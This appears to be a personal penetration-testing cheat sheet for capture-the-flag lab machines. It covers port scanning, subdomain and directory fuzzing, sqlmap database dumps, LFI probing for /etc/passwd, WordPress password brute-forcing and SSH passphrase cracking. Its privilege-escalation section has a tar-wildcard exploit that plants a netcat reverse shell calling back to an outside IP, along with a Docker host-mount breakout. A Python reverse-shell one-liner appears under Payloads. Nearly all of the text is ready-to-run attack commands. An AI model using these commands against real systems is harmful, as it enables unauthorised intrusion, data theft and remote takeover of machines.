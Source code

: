 # hacking_notes

## Recon

### Scanning ports
```powershell
sudo nmap -A -o scan_agsv.txt 10.10.10.218
sudo nmap -sS -p- -o scan_full.txt 10.10.10.218
```
### Fuzzing subdomains
```powershell
wfuzz -w subdomains-top1million-5000.txt -H "Host: FUZZ.vulnnet.thm" --hc 200 10.10.236.248
```

### sqlmap
```powershell
sqlmap -r ./test_user --dbms=MySQL --technique=U --delay=3
sqlmap -r ./test_user --dbms=MySQL --current-db
sqlmap -r ./test_user --dbms=MySQL -D marketplace --dump
```


### LFI
```powershell
python ./panoptic.py --url http://vulnnet.thm/\?referer\=test
```

### Fuzzing for command executions via LFI 
```powershell
wfuzz -w SecLists-master/Discovery/Web-Content/burp-parameter-names.txt http://vulnnet.thm/\?\FUZZ\=id\;whoami\|\|ls
wfuzz --hh 5829 -w ~/Documents/SecLists-master/Discovery/Web-Content/burp-parameter-names.txt http://vulnnet.thm/\?\FUZZ\=/etc/passwd
```

### Fuzzing dir
```powershell
gobuster -u http://broadcast.vulnnet.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster -u http://10.10.236.248 -w SecLists-master/Discovery/Web-Content/common.txt
```

### Wordpress
```powershell
wpscan --url http://10.10.255.124/blog --enumerate u
wpscan --url http://10.10.74.136/ --passwords /usr/share/wordlists/rockyou.txt --usernames user1,user2
```


## Cracking

### Crack ssh passphrase
```powershell
python ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

## Priv Esc

### tar wildcards
```powershell
cd target_dir
echo "mkfifo /tmp/bggenux; nc 10.9.4.192 4444 0</tmp/bggenux | /bin/sh >/tmp/bggenux 2>&1; rm /tmp/bggenux" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```
* [https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
* [https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)


### Docker
```powershell
docker run -it -v /:/host/ <docker image> chroot /host/ bash
```
* [https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)


## Payloads

### PHP Reverse Shell

* [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)


### Python Reverse Shell

```powershell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Misc

### Start local server
```powershell
python -m SimpleHTTPServer
```

### Get tty in shell
```powershell
python3 -c'import pty;pty.spawn("/bin/bash")'
```

## TODO

[*] ftp
[*] hydra
[*] http bruteforce
[*] one line reverse shell
[*] check linux exploit
[*] smb (nmap script enum)
[*] john
